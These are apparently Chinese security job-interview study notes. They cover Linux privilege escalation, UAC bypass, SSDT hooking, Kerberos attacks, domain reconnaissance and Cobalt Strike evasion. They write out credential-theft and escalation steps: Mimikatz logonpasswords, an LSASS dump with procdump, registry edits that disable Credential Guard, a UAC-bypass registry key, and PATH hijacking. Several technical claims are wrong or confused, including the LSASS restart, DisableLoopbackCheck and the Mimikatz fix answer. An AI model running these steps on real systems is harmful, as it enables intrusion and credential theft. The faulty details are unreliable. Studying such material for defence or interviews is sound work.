> 在 R3 用户态，常见的 HOOK 技术包括 IAT/EAT 表修改、Inline Hook、SetWindowsHookEx 和 DLL 注入等；而在 R0 内核态，常用的 HOOK 技术包括 SSDT Hook、Inline Hook、IDT Hook 和各种内核回调机制等。R3 Hook 局限于进程空间，较易实现但权限低；R0 Hook 控制更强但容易引起系统不稳定，且在新版系统上容易被防护机制拦截。

## ✓Linux下如何准确实现应用识别，如识别`nginx` `mysql`等 (★)

**如何在 Linux 下准确识别应用（如 Nginx、MySQL、Redis、Apache 等）是否安装、运行，并识别其版本？**

***

### ✅ 一、识别方法总览：

| 类别         | 方法                                               | 说明                                          |
| ---------- | ------------------------------------------------ | ------------------------------------------- |
| 1️⃣ 文件系统分析 | 查看常见安装路径、配置文件、二进制文件位置                            | \`/usr/sbin/nginx\`,\`/etc/mysql/my.cnf\` 等 |
| 2️⃣ 进程分析   | \`ps\`,\`top\`,\`htop\`,\`systemctl\` 等          | 判断是否在运行                                     |
| 3️⃣ 网络监听   | \`netstat\`,\`ss\`,\`lsof -i\`,\`nmap\`,\`curl\` | 判断是否监听特定端口                                  |
| 4️⃣ 包管理器   | \`dpkg\`,\`rpm\`,\`yum\`,\`apt list\` 等          | 判断是否已安装，以及版本                                |
| 5️⃣ 服务管理   | \`systemctl\`,\`service\`,\`chkconfig\`          | 判断是否为系统服务                                   |
| 6️⃣ 指纹命令识别 | 运行二进制 +\`-v\`、\`--version\`、\`-V\`               | \`nginx -v\`,\`mysql --version\` 等          |
| 7️⃣ 配置文件分析 | \`grep\`,\`find\`,\`cat\` 查看配置路径、内容              | 可确认应用部署路径和端口等细节                             |

***

### ✅ 二、实用命令举例

### ✅ 1. 识别是否安装：

`# Debian/Ubuntu dpkg -l | grep -E 'nginx|mysql|apache2' # CentOS/RHEL rpm -qa | grep -E 'nginx|mysql|httpd' # 通用 which nginx`

***

### ✅ 2. 识别是否运行：

`ps aux | grep -E 'nginx|mysql|httpd' systemctl status nginx pgrep nginx`

***

### ✅ 3. 查看监听端口：

`ss -tulnp lsof -iTCP -sTCP:LISTEN netstat -tulnp`

***

### ✅ 4. 获取版本信息：

`nginx -v          # or nginx -V mysql --version httpd -v`

***

### ✅ 5. 应用识别扫描工具（可选）：

- `nmap -sV`：识别网络服务及版本
- `whatweb`/`wappalyzer`：识别 Web 应用指纹
- `binwalk`/`strings`/`file`：用于分析二进制服务特征（更底层）

***

### ✅ 三、如何精准识别 vs. 静态判断

| 方法        | 静态判断        | 运行时判断     |
| --------- | ----------- | --------- |
| 包管理器      | ✅ 安装确认      | ❌ 不确认是否运行 |
| systemctl | ✅ 是否注册服务    | ✅ 是否运行中   |
| 端口监听      | ❌ 是否安装未知    | ✅ 判断运行状态  |
| 配置文件      | ✅ 可确认路径、端口等 | ❌ 不保证在用   |
| 进程分析      | ❌ 安装状态未知    | ✅ 确认运行    |

**综合建议：组合多个方法进行识别，交叉验证。**

***

### ✅ 总结回答模板（背诵）：

> 在 Linux 下可以通过文件系统、包管理器、系统服务状态、网络监听、进程信息和配置文件等多种方式识别应用的安装和运行状态。如通过`dpkg`/`rpm`判断是否安装，`systemctl`/`ps`判断是否运行，`ss`/`netstat`查看监听端口，同时结合命令行如`nginx -v` 等获取版本信息。综合交叉验证是实现精准识别的关键。

## ✓假设某Linux机器存在命令审计(方法未知)，有哪些可能的绕过方法? (★★)

## ✓Linux常见的提权方法有哪些?(★★)

***

### ✅ 一、内核漏洞提权（脏牛等）

- **CVE-2016-5195 Dirty COW**
- **CVE-2021-3156 sudo heap overflow（Baron Samedit）**
- **CVE-2022-0847 Dirty Pipe**

> 🛠 需要匹配具体内核版本，利用公开 Exploit。

***

### ✅ 二、SUID 提权

查找具有 SUID 权限的二进制文件：

bash

复制编辑

`find / -perm -4000 -type f 2>/dev/null`

常见提权 SUID 程序：

- `nmap`,`vim`,`less`,`perl`,`python`,`find`,`bash`,`cp`,`tar` 等
- 自定义 SUID 程序（开发人员疏忽导致）

***

### ✅ 三、环境变量提权

某些 SUID 程序或脚本依赖`PATH`或`LD_PRELOAD`，可尝试：

bash

复制编辑

`export PATH=/tmp/fakebin:$PATH`

> ⚠️ 仅部分程序在加载系统命令或动态库时会受影响。

***

### ✅ 四、定时任务（cron）提权

查找可写定时任务脚本：

bash

复制编辑

`cat /etc/crontab ls -la /etc/cron*`

利用方式：

- 修改定时执行脚本
- 利用计划任务目录权限不当，如`/etc/cron.hourly`

***

### ✅ 五、服务/守护进程提权

- Misconfigured systemd 服务（`.service` 文件权限问题）
- 守护进程以 root 运行但加载了非 root 用户可控内容
- Docker 提权、LXD 容器逃逸

***

### ✅ 六、可写配置文件提权

如：

- `/etc/passwd` 可写（可直接添加 root 用户）
- `/etc/sudoers`可写（添加`ALL=(ALL) NOPASSWD`）

***

### ✅ 七、滥用 sudo 权限

查看当前用户可执行的 sudo：

bash

复制编辑

`sudo -l`

如果可运行某些二进制（如`vi`,`less`,`find`,`python` 等）就可能执行提权命令。

参考：

- [https://gtfobins.github.io/  ](<https://gtfobins.github.io/  > "https://gtfobins.github.io/  ")

  （GTFOBins 是收集这类提权方式的权威站点）

***

### ✅ 八、服务漏洞提权

- Web 服务提权（上传文件、webshell）
- 数据库服务提权（如 Redis 未授权写 SSH key）

***

### ✅ 九、内存信息/凭证泄露

- `.bash_history`/`ps aux` 中暴露密码
- `config.php`,`.env` 等配置文件中有数据库或 sudo 密码
- SSH agent 劫持

***

### ✅ 总结一句话（建议背诵）：

> Linux 提权方法包括利用内核漏洞、SUID 程序、sudo 配置、环境变量、计划任务、服务配置错误、配置文件权限问题等，实际攻击中通常会结合枚举信息、权限分析及已知漏洞进行综合判断。

## ✓僵尸进程和孤儿进程的区别是什么? (★)

### ✅ 僵尸进程 vs 孤儿进程 的区别：

| 项目        | 僵尸进程（Zombie）                        | 孤儿进程（Orphan）               |
| --------- | ----------------------------------- | -------------------------- |
| **定义**​   | 子进程已经退出，但父进程未调用\`wait()\` 回收它的退出状态。 | 父进程已经退出，子进程还在运行。           |
| **状态**​   | 已结束运行，但仍保留在进程表中。                    | 仍在正常运行中。                   |
| **表现**​   | \`ps\`查看状态为\`Z\`（Zombie）。           | 正常进程状态（\`S\`,\`R\`, 等）。    |
| **影响**​   | 会占用进程表资源，过多可能导致系统资源耗尽。              | 一般无害，但需确保被系统正确接管。          |
| **回收方式**​ | 父进程调用\`wait()\`或\`waitpid()\`。      | 被\`init\`（PID 1）自动接管并继续管理。 |
| **根本原因**​ | 父进程没有及时处理子进程的退出。                    | 父进程意外退出。                   |

***

### ✅ 面试回答示例：

> 僵尸进程是已经结束执行但父进程未回收的子进程，它会残留在进程表中，占用系统资源；而孤儿进程是父进程已经结束，子进程还在运行的进程，此时该子进程会被`init`（或`systemd`）进程收养并继续正常运行。僵尸进程状态为`Z`，需要通过`wait()` 回收，而孤儿进程不会成为僵尸。

## ✓UAC是如何进行鉴权校验的? BypassUAC的常见方法有哪些? (★★)

### ✅ 什么是 UAC？

**UAC（User Account Control）用户账户控制** 是 Windows 引入的一种安全机制，用于防止恶意程序在未经用户同意的情况下获得管理员权限。

***

### ✅ UAC 鉴权流程：

1. **普通用户默认运行为标准权限（非管理员权限）**，即使该账户属于 Administrators 组；
2. 当程序需要**高权限（高完整性级别）运行时，系统会触发**UAC 提升提示（权限提升请求）；
3. 这个提示由**Consent.exe**或**credwiz.exe** 触发，用户选择“是”后，进程以管理员身份运行；
4. 判断是否需要提权的依据：程序清单（manifest）中指定了`requireAdministrator`或`highestAvailable`；
5. 进程完整性级别决定权限等级（低、中、高）。

***

### ✅ 常见的 Bypass UAC 方法：

### 🛠️ 1.**白名单绕过（可执行的 auto-elevate 程序）**

- 系统中某些自带的二进制程序具有“自动提权”属性。
- 利用这些程序加载可控 DLL、修改注册表项或环境变量。

**典型利用程序：**

- `fodhelper.exe`
- `eventvwr.exe`
- `sdclt.exe`
- `computerdefaults.exe`
- `cmstp.exe`

这些程序运行时不弹 UAC，即可被低权限用户调用来执行高权限操作。

***

### 🛠️ 2.**注册表劫持（UACME、PowerSploit 等工具常用）**

修改与上述可执行文件相关的注册表项：

例如：

`HKCU\Software\Classes\ms-settings\shell\open\command`

- 当`fodhelper.exe` 被执行时，会查找这些路径，从而触发恶意命令执行。

***

### 🛠️ 3.**DLL 劫持（DLL Hijacking）**

- 某些 auto-elevate 程序加载 DLL 时不使用绝对路径。
- 若我们能将伪造的 DLL 放入其搜索路径中，就可在执行该程序时加载我们的恶意 DLL。

***

### 🛠️ 4.**环境变量劫持**

- 修改`%windir%`、`PATH` 等环境变量，使 UAC 提权程序执行伪造程序或命令。

***

### 🛠️ 5.**修改计划任务或服务（需部分提权）**

- 某些系统任务或服务允许用户修改内容但以 SYSTEM 权限执行。

***

### 🛠️ 6.**COM 接口劫持**

- 注册恶意 COM 对象，劫持 Windows 提权组件加载路径。

***

### ✅ 防护措施：

1. **启用 UAC 且设置为始终通知**
2. **启用 Windows Defender Application Control**
3. **使用 AppLocker 限制可执行程序路径**
4. **限制注册表和服务的修改权限**
5. **定期检查 auto-elevate 程序使用情况**

***

### ✅ 面试回答总结版：

> UAC 的本质是通过权限分离和用户确认机制，避免程序未经允许获得管理员权限。它依赖于进程完整性级别和程序清单中权限字段进行判断。绕过 UAC 的方式包括利用白名单程序（如 fodhelper.exe）、注册表劫持、DLL 劫持、环境变量劫持、计划任务修改等。常见工具如 PowerSploit、UACME 等都集成了这些方法。

## ✓SSDT表是什么，如何在系统中找到SSDT表并进行hook? (★)

### ✅ 一、什么是 SSDT？

**SSDT（系统服务描述符表）是 Windows 内核中一个结构体表，用于保存所有**系统调用（syscall）**对应的**服务函数地址指针。

每当用户态调用某个 API（如`NtCreateFile`），通过`int 0x2e`（在旧版本）或`syscall`（新版本）指令，最终跳转到 SSDT 中的函数地址来完成真正的系统调用。

***

### ✅ 二、SSDT 的作用

- 连接**用户态 API**与**内核态实现函数**；
- 每个条目对应一个\*\*`NtXXX`/`ZwXXX`\*\* 内核函数；
- 存储在内存中一个全局结构体数组中。

***

### ✅ 三、如何找到 SSDT 表？

在不同的 Windows 系统版本中，定位 SSDT 的方法不同：

### 1. 在 Windows XP\~7 中：

- SSDT 位于`KeServiceDescriptorTable`或`KeServiceDescriptorTableShadow` 全局变量中；
- 可以在内核中通过导出符号直接访问；
- 每个服务表结构如下：

`typedef struct _SERVICE_DESCRIPTOR_TABLE {     PULONG ServiceTableBase;    // SSDT 基址     PULONG ServiceCounterTableBase;     ULONG  NumberOfServices;    // 函数数量     PUCHAR ParamTableBase; } SERVICE_DESCRIPTOR_TABLE, *PSERVICE_DESCRIPTOR_TABLE;`

### 2. 在 Windows 8+（特别是 PatchGuard 开启时）

- `KeServiceDescriptorTable` 不再导出；
- 需要通过**内核符号解析**或**签名扫描（pattern scanning）** 查找；
- Windows 10/11 使用`syscall`指令，不再走中断`int 0x2e`。

***

### ✅ 四、如何对 SSDT 进行 HOOK？

### ⚠️ 注意：SSDT Hook 已被微软列为非法行为，**PatchGuard 会检测并蓝屏**！

### ⚒️ 原理：

1. 找到 SSDT 基址；
2. 定位目标函数在 SSDT 中的索引；
3. 将该索引处的函数指针替换为你自己的 Hook 函数地址。

`// 示例伪代码（仅适用于旧系统） OldFunc = SSDT[Index]; SSDT[Index] = MyHookFunc;`

***

### 示例场景（Windows XP \~ 7）：

`__declspec(naked) NTSTATUS MyNtCreateFileHook(...) {     // 做点什么     return OldNtCreateFile(...); }`

***

### ✅ 五、绕过 PatchGuard 的 Hook 方法（仅用于研究）

1. **Shadow SSDT Hook**：Hook 图形界面的服务表（有副本）；
2. *Inline Hook Nt*函数 \*：通过修改函数前几字节跳转；
3. **Hook**\*\*`syscall`指令的跳转地址（MSR Hook） \*\*；
4. **使用内核 rootkit 框架如 Turla、Ring0Loader 等修改 SSDT（极其危险）**；

***

### ✅ 六、面试简洁回答示例：

> SSDT 是 Windows 内核中记录所有系统调用地址的表。当用户态调用系统 API 时，最终会跳转到 SSDT 中对应的内核函数地址。通过替换 SSDT 中的函数指针可以实现系统调用级别的 HOOK，比如拦截 NtCreateFile、NtReadFile 等。不过，Windows PatchGuard 会检测 SSDT 的完整性，因此在新系统中直接 SSDT Hook 已不可行，需要使用其他内核绕过技术。

## ✓Windows是如何进行权限控制的，具体的权限校验模型是什么? (★)

***

### Windows权限控制机制与模型

### 1. 权限控制的核心组成

- **主体（Subject）**：请求访问资源的用户或进程，通常以**安全主体**（Security Principal）表示，如用户账户、用户组或进程。
- **客体（Object）**：受保护的资源，如文件、注册表项、进程、线程等。
- **安全标识符（SID）**：唯一标识安全主体和安全组的标识符。
- **访问令牌（Access Token）**：与进程或线程关联，包含主体的SID和其组信息，以及权限。
- **安全描述符（Security Descriptor）**：与对象关联，定义对象的访问控制信息。
- **访问控制列表（ACL）**：安全描述符的一部分，包含多个访问控制项（ACE），决定谁能访问对象及如何访问。

***

### 2. Windows权限校验模型（基于ACL）

- 每个对象都有一个安全描述符，里面包含：
  - **DACL（Discretionary ACL）**：定义允许或拒绝访问的规则。
  - **SACL（System ACL）**：用于审计。
- 访问请求时，系统依据访问令牌和对象的DACL来判断访问权限：
  1. 获取请求主体的访问令牌（包含SID列表）。
  2. 遍历对象DACL中的ACE，匹配请求主体的SID。
  3. 如果有拒绝ACE（Deny ACE）匹配，则拒绝访问。
  4. 如果有允许ACE（Allow ACE）匹配，则允许访问。
  5. 如果无匹配ACE，则默认拒绝访问。

***

### 3. 具体流程示意

1. 用户登录时生成访问令牌，进程继承该令牌。
2. 进程尝试访问对象（如文件）。
3. 内核调用`SeAccessCheck`等函数，比较访问令牌与对象安全描述符中的ACL。
4. 根据ACL规则决定是否授权访问。

***

### 4. 其他相关控制

- **权限继承**：子对象可以继承父对象的ACL设置。
- **权限合并**：用户的有效权限是其所属组权限的合并结果。
- **特权权限（Privileges）**：如“备份文件”、“关机”等特殊权限，不同于ACL。

***

### 5. 简洁面试回答示例

> Windows 权限控制基于安全主体（用户或进程）的访问令牌和对象的安全描述符中的访问控制列表（ACL）来实现。访问时系统会通过比对访问令牌中的 SID 与对象的 DACL 中的访问控制项（ACE）决定是否授权访问。权限模型采用基于 ACL 的细粒度访问控制，支持权限继承、拒绝优先等策略。

## ✓psexec的底层实现原理是什么? (★)

PsExec 是 Sysinternals 套件中的一款远程执行工具，用于在远程 Windows 机器上执行命令或启动进程。它实现远程命令执行的核心原理主要包含以下几个方面：

***

### 1. 服务安装与通信

- **远程服务安装** &#x20;

  PsExec 会将一个小型的服务程序（psexesvc.exe）通过 SMB 共享（通常是`\<target>\ADMIN$`）复制到远程机器的系统目录（如`C:\Windows\System32`），然后使用远程服务管理接口（Service Control Manager，SCM）在远程主机上启动该服务。
- **服务启动后作为代理** &#x20;

  该服务接收来自 PsExec 客户端的命令请求，并在远程机器上执行对应命令。

***

### 2. 利用 SMB 和远程管理协议

- PsExec 通过**SMB 协议**实现文件传输（上传 psexesvc.exe）和服务管理操作；
- 远程启动服务需要目标机器上的凭据（用户名和密码或者使用当前用户凭据）；
- 使用 Windows 的远程服务管理接口（SCM API）实现远程服务的创建和启动。

***

### 3. 标准输入输出重定向

- PsExec 建立**管道**，实现本地与远程服务之间的通信，支持标准输入、输出和错误重定向；
- 这样，用户在本地就像在远程机器上直接操作一样，能实时看到执行结果。

***

### 4. 进程权限与上下文

- 远程服务以**SYSTEM** 账户或指定用户权限运行，因此命令以高权限执行；
- 可以指定不同用户或使用当前登录用户的凭据执行命令。

***

### 5. 清理工作

- 命令执行完成后，PsExec 会停止并删除远程服务和临时上传的文件，保持目标系统的清洁。

***

### 简单总结（面试模板）

> PsExec 的底层实现基于 SMB 协议将一个远程服务程序上传至目标机器的系统目录，并通过远程服务管理接口在目标主机上启动该服务。该服务充当代理，执行远程命令，并通过管道实现输入输出的重定向，从而实现远程命令执行。整个过程需要有效的目标机器凭据，执行权限一般为 SYSTEM 账户。

## ✓SSP接口中修复了哪个模块杜绝了mimikatz的恶意利用，具体是如何修复的？(★★)

### 1. 背景：Mimikatz 利用 SSP 接口

- **Mimikatz**利用 Windows 的**SSP（Security Support Provider）接口**，尤其是通过注入和劫持\*\*`msv1_0.dll`\*\*（用于处理身份验证）模块，来窃取明文密码和凭证。
- 它通过**修改内存、Hook 函数**，在用户登录和认证过程中提取凭据。

***

### 2. 修复的核心模块：`msv1_0.dll` 和 Credential Guard

- **微软在 Windows 8.1/10 及以后版本中加强了**\*\*`msv1_0.dll`的保护 \*\*，尤其是针对凭据窃取的漏洞进行了修复。
- **Windows Defender Credential Guard** 技术（基于虚拟化安全隔离）将敏感凭据存储隔离到安全硬件或虚拟化环境中，避免被 SSP 等模块直接访问。
- SSP 本身的认证流程增加了防护，防止被注入或劫持。

***

### 3. 具体修复方式

### (1)**增强内存保护和完整性校验**

- 对`msv1_0.dll`和关键内存区域做**写时保护**，防止内存被篡改；
- 引入**PatchGuard**，防止内核模块被非法 Hook；

### (2)**凭据隔离**

- 利用**LSA ISO（Isolated Security Subsystem）** 技术将密码等敏感信息隔离在安全容器内，非系统核心进程无法读取；
- Credential Guard 通过虚拟化帮助隔离凭据，降低 Mimikatz 直接访问风险。

### (3)**认证过程改进**

- 阻止非授权进程调用 SSP 接口，限制 SSP 函数的访问权限；
- 对 SSP 的某些接口增加访问验证。

***

### 4. 总结（面试回答示例）

> Mimikatz 主要通过注入和劫持 Windows SSP 组件中的`msv1_0.dll`来窃取凭据。微软通过强化`msv1_0.dll` 的内存保护机制，结合 PatchGuard 防止非法 Hook，并引入 Credential Guard 等隔离技术，将凭据存储在受保护的安全容器中，从而杜绝了 Mimikatz 利用 SSP 接口窃取明文密码的能力。

## ✓内网KDC服务器开放在哪个端口，针对kerbores的攻击有哪些? (★★★)

### 1. 内网 KDC 服务器开放端口

- **Kerberos Key Distribution Center (KDC)** 默认运行在：
  - **UDP/TCP 88端口** （Kerberos 认证端口）
- 另外，相关服务可能还会用到：
  - **UDP/TCP 464端口** （Kerberos 密码修改服务）
  - **UDP/TCP 749端口** （Kerberos 管理服务，但较少用）

***

### 2. 针对 Kerberos 的常见攻击方法

### ★★★ 2.1 黄金票据攻击（Golden Ticket）

- 攻击者获取了**域控（Domain Controller）中 KRBTGT 用户的哈希**；
- 可以伪造任意用户的 Kerberos 票据，获取无限制访问权限；
- 影响范围大，几乎完全控制域。

### ★★★ 2.2 白银票据攻击（Silver Ticket）

- 利用服务账号的密码哈希伪造服务票据（TGS）；
- 只影响特定服务权限，不需要域控哈希。

### ★★★ 2.3 票据传递攻击（Pass-the-Ticket）

- 利用窃取的 Kerberos 票据（TGT 或 TGS）直接访问服务；
- 无需破解密码。

### ★★★ 2.4 Kerberoasting

- 利用合法账户请求服务票据（TGS）；
- 抓取加密的票据，离线破解服务账户密码哈希。

### ★★★ 2.5 AS-REP Roasting

- 针对未设置“要求预认证”的用户账号，获取其加密票据并离线破解密码。

### ★★★ 2.6 票据重放攻击

- 重放有效的 Kerberos 票据以绕过认证。

### ★★★ 2.7 KDC 反射攻击（KDC Relay）

- 利用 Kerberos 协议的中间人攻击，欺骗 KDC 验证。

***

### 3. 面试回答示例

> 内网中 KDC 默认开放 UDP/TCP 88 端口用于 Kerberos 认证，此外还会开放 464 端口用于密码更改。针对 Kerberos 的攻击主要包括黄金票据攻击（通过 KRBTGT 哈希伪造任意票据）、白银票据攻击（伪造服务票据）、票据传递（Pass-the-Ticket）、Kerberoasting（离线破解服务账户密码）、AS-REP Roasting（针对无预认证账号）、以及票据重放和 KDC 反射等多种方式。这些攻击主要利用 Kerberos 票据机制或账户密码弱点，实现对域环境的控制或权限提升。

## ✓在win10或者winserver2012中，如果需要使用mimikatz，该如何使用，修改注册表后如何在不重启机器的情况下获取NTLM? (★★)

### 1. 使用 Mimikatz 获取 NTLM 的基本步骤

- **运行 Mimikatz**（需要管理员权限或 SYSTEM 权限）
- 执行以下命令以获取内存中的凭据：

`privilege::debug sekurlsa::logonpasswords`

***

### 2. 修改注册表开启凭据缓存（或关闭凭据保护）

常见为了让 Mimikatz 能获取 NTLM Hash，会修改以下注册表项：

`HKLM\SYSTEM\CurrentControlSet\Control\Lsa "DisableRestrictedAdmin"=dword:1`

或者

`HKLM\SYSTEM\CurrentControlSet\Control\Lsa "DisableLoopbackCheck"=dword:1`

或者关闭**Credential Guard**：

`HKLM\System\CurrentControlSet\Control\DeviceGuard "EnableVirtualizationBasedSecurity"=dword:0`

***

### 3. 如何在不重启机器情况下让注册表生效并能立即获取NTLM？

### 方案一：重启相关服务

- **重启 LSA 服务**

`net stop lsass net start lsass`

> 注意：LSASS 是关键系统进程，不能直接停止，尝试会失败或导致蓝屏。

### 方案二：重新加载注册表配置（间接生效）

- 运行命令刷新策略：

`gpupdate /force`

- 手动注销当前用户并重新登录，有时也可使配置生效。

### 方案三：使用 Mimikatz 直接针对内存的**sekurlsa::minidump** 模块

- 利用已有 LSASS 的 dump 文件进行分析，规避配置生效时间：

`sekurlsa::minidump lsass.dmp sekurlsa::logonpasswords`

- 利用任务管理器或 procdump 工具导出 lsass.dmp：

`procdump -ma lsass.exe lsass.dmp`

***

### 4. 备注

- **重启机器通常是保证注册表生效的最稳妥方式**；
- 不重启获取 NTLM 依赖于具体注册表项，某些更改可能无法即时生效；
- Windows 10 和 Server 2012 后期版本引入 Credential Guard，防止 Mimikatz 直接读取 NTLM。

***

### 5. 面试回答示例

> 在 Windows 10 或 Server 2012 中，使用 Mimikatz 获取 NTLM 哈希时，通常需具备管理员权限并开启`privilege::debug`。如果修改了注册表（如关闭 Credential Guard 或调整 LSA 配置），不想重启机器，可以尝试执行`gpupdate /force` 刷新策略，或注销后重新登录使配置生效。此外，可以通过导出 lsass 进程的内存 dump 文件，离线分析获取 NTLM，从而绕过部分生效延迟。重启系统虽简单但风险较大且影响业务。

## ✓域内如何查询员工对应的机器? (★)

### 一、通过Active Directory查询员工对应机器

### 1. 查询用户登录的计算机（LastLogonComputer）

- 在域控制器上，使用 PowerShell 查询用户的登录计算机：

`Get-ADUser -Identity username -Properties lastLogon | Select-Object Name, lastLogon`

> 但`lastLogon` 字段不是机器名，只是时间戳。

***

### 2. 查询用户的计算机对象

- 如果员工有自己的计算机账户，可以通过查询其计算机对象：

powershell

复制编辑

`Get-ADComputer -Filter {ManagedBy -eq "CN=用户名,OU=Users,DC=domain,DC=com"} -Properties Name`

> 需要正确配置计算机对象的`ManagedBy` 属性。

***

### 3. 查询域日志或登录事件

- 利用**Windows事件日志**（如安全日志中4624事件）查看用户的登录记录，包括登录的计算机名称和IP。
- 使用如下 PowerShell 查询事件：

powershell

复制编辑

`Get-WinEvent -FilterHashtable @{LogName='Security';ID=4624} |  Where-Object { $_.Properties[5].Value -eq '用户名' } |  Select-Object TimeCreated, @{Name='Computer';Expression={$_.MachineName}}`

***

### 4. 查询计算机上的登录用户（反向查询）

- 通过域中的计算机列表，远程查询当前登录用户：

powershell

复制编辑

`Invoke-Command -ComputerName ComputerName -ScriptBlock { quser }`

> 需要有权限远程执行命令。

***

### 5. 使用 SCCM 或第三方资产管理工具

- 如果公司部署了 SCCM、Lansweeper 等工具，可以直接查询“用户-设备”映射关系。

***

### 面试简答示例

> 在域环境中，查询员工对应机器常用方法包括：查看Active Directory中用户或计算机对象的`ManagedBy`属性；查询域控安全日志中的4624登录事件，分析用户登录的计算机；远程访问计算机查看当前登录用户；以及使用企业资产管理工具如SCCM做关联查询。

## ✓如何查询域之间的信任关系? (★)

### 一、什么是域信任关系？

- 域信任关系是不同 Windows 域之间建立的安全关系，允许一个域中的用户访问另一个域的资源。
- 包括单向信任、双向信任、林信任等。

***

### 二、查询域信任关系的方法

### 1. 使用`Active Directory Domains and Trusts` 工具（图形界面）

- 打开“Active Directory Domains and Trusts”管理控制台；
- 右键点击域名，选择“Properties”；
- 切换到“Trusts”标签页查看所有信任关系。

***

### 2. 使用 PowerShell 查询

`Get-ADTrust -Filter *`

- 可以查看当前域的所有信任关系，包括信任方向、类型等详细信息。

***

### 3. 使用命令行工具`nltest`

- 查询信任关系：

`nltest /domain_trusts`

- 查询特定域的信任信息：

`nltest /trusted_domains`

***

### 4. 使用`netdom` 命令

`netdom trust <TrustingDomain> /domain:<TrustedDomain> /verify`

- 验证两个域之间的信任关系是否有效。

***

### 三、面试简答示例

> 查询域信任关系可以通过图形化工具“Active Directory Domains and Trusts”，在“Trusts”标签页查看；也可以用 PowerShell 的`Get-ADTrust`命令查询所有信任关系；此外，命令行工具`nltest /domain_trusts`和`netdom trust` 也能帮助验证和列出域之间的信任信息。

## ✓域控开放的常见端口有哪些?(★)

### 域控（Domain Controller）常见开放端口

| 端口号     | 协议      | 服务/用途                   | 备注                    |
| ------- | ------- | ----------------------- | --------------------- |
| 53      | TCP/UDP | DNS                     | 域名解析                  |
| 88      | TCP/UDP | Kerberos 认证             | 身份验证                  |
| 135     | TCP     | RPC Endpoint Mapper     | 远程过程调用服务              |
| 137-139 | UDP/TCP | NetBIOS 服务              | 旧式文件和打印共享             |
| 389     | TCP/UDP | LDAP                    | 目录访问服务                |
| 445     | TCP     | SMB                     | 文件共享、Active Directory |
| 464     | TCP/UDP | Kerberos 密码更改           | 密码修改                  |
| 636     | TCP     | LDAPS（LDAP over SSL）    | 加密的目录访问               |
| 3268    | TCP     | Global Catalog          | 跨域搜索                  |
| 3269    | TCP     | Global Catalog over SSL | 加密跨域搜索                |

***

### 面试简答示例

> 域控常开放的端口主要包括53（DNS）、88（Kerberos）、389（LDAP）、445（SMB）、135（RPC）、464（Kerberos密码修改）、3268（全局编录）等。其中 DNS、LDAP 和 Kerberos 是域控身份认证和目录服务的核心端口，SMB 和 RPC 用于资源访问和远程管理。

## ✓windows内网中ntlm协议认证过程 (★★★)

### Windows NTLM 认证过程概述

NTLM（NT LAN Manager）是 Windows 中较老的一种身份认证协议，主要用于局域网环境下的身份验证，尤其在 Kerberos 不可用时作为备用认证方式。

***

### NTLM 认证三次握手流程

1. **客户端发起认证请求（Negotiate Message）**
   - 客户端向服务器发送一个**Negotiate Message**，表明支持的认证协议（NTLMv1/v2等）。
2. **服务器返回挑战（Challenge Message）**
   - 服务器生成一个随机的**挑战码（Challenge）**，发送给客户端。
3. **客户端响应挑战（Authenticate Message）**
   - 客户端使用用户密码的哈希值对挑战码进行加密，生成响应码发送给服务器。
4. **服务器验证响应**
   - 服务器利用存储的用户密码哈希对挑战码加密，并将结果与客户端响应进行比较；
   - 若匹配，认证成功，客户端获得访问权限。

***

### 详细步骤解释

| 阶段        | 说明                                    |
| --------- | ------------------------------------- |
| **协商阶段**​ | 客户端发送协商消息，声明支持的 NTLM 协议版本和特性。         |
| **挑战阶段**​ | 服务器生成 8 字节随机挑战码，发送给客户端。               |
| **响应阶段**​ | 客户端使用用户密码的哈希（NT Hash）和挑战码计算响应，发送给服务器。 |
| **验证阶段**​ | 服务器用存储的密码哈希对挑战码计算响应，和客户端响应比对。         |

***

### NTLMv1 vs NTLMv2

- **NTLMv1**：加密强度较弱，易受中间人攻击、离线破解。
- **NTLMv2**：增强了加密和身份验证机制，支持时间戳和客户端挑战，安全性更高。

***

### 面试简答示例

> Windows 内网中，NTLM认证基于挑战-响应机制。客户端发起协商请求，服务器返回随机挑战码，客户端用密码哈希对挑战码加密生成响应，服务器验证响应是否匹配来决定认证是否通过。NTLMv2引入了更强的加密和防重放机制，但整体流程仍是三次消息交换。

## ✓cobalt strike中上线方式有哪些，各自是什么原理，如果需要绕过监控，如何绕? (★★)

### 1. Cobalt Strike 上线方式

### 1.1 HTTP/HTTPS C2 (Command and Control)

- **原理**：Beacon 通过 HTTP 或 HTTPS 协议与 C2 服务器通信，伪装成正常的 Web 流量，发送心跳和接收指令。
- **优点**：流量容易伪装成正常 Web 请求，难以被检测。

### 1.2 DNS C2

- **原理**：通过 DNS 查询和响应传递数据，利用 DNS 协议的特点隐藏通信。
- **优点**：DNS 协议通常被允许通过防火墙，且流量异常不易被发现。

### 1.3 SMB C2 / Named Pipe

- **原理**：通过 Windows SMB 协议或命名管道在内网内进行通信。
- **优点**：不依赖外网，适合内网渗透。

### 1.4 TCP Beacon

- **原理**：直接通过 TCP 套接字连接 C2 服务器，通信自定义协议。
- **优点**：协议简单，适用于低检测环境。

### 1.5 HTTPS Proxy / SOCKS5 Relay

- **原理**：通过代理服务器中转流量，隐藏 C2 真实地址。

***

### 2. 绕过监控的常用方法

### 2.1 流量伪装

- 使用 HTTPS 加密流量，伪装成正常网站请求。
- 修改 User-Agent、请求头，模仿浏览器或常见软件。
- 控制通信频率和数据包大小，避免异常流量特征。

### 2.2 延迟与抖动（Sleep/Jitter）

- 增加 Beacon 上线后的延迟和抖动，降低检测概率。
- 不频繁主动通信，减少监控日志。

### 2.3 加密与编码

- 使用自定义加密算法对 C2 流量加密，避免被流量分析工具识别。
- 利用编码混淆，防止签名检测。

### 2.4 利用合法服务转发

- 利用企业合法服务（如 Office365、Dropbox、Google Docs）作为中转，利用其流量白名单规避检测。
- 例如通过 HTTP 隧道技术，绕过流量审查。

### 2.5 内存执行与文件无痕

- 将 Beacon 以**内存执行**方式运行，避免写入磁盘被杀软发现。
- 利用进程注入技术隐藏 Beacon 进程。

***

### 3. 面试回答示例

> Cobalt Strike 的上线方式主要包括 HTTP/HTTPS C2、DNS C2、SMB C2 和 TCP Beacon等。它们分别通过伪装网络流量、利用DNS协议、内网协议或直接TCP连接与 C2 服务器通信。绕过监控通常通过加密流量、模仿正常请求、控制通信节奏、使用代理或合法服务作为中转，并结合内存执行、代码混淆等技术实现隐蔽性。

## ✓横向渗透中，wmic如何构造有回显的命令执行? (★★)

### 1. WMIC 远程执行原理

- `wmic`（Windows Management Instrumentation Command-line）用于管理本地和远程 Windows 系统。
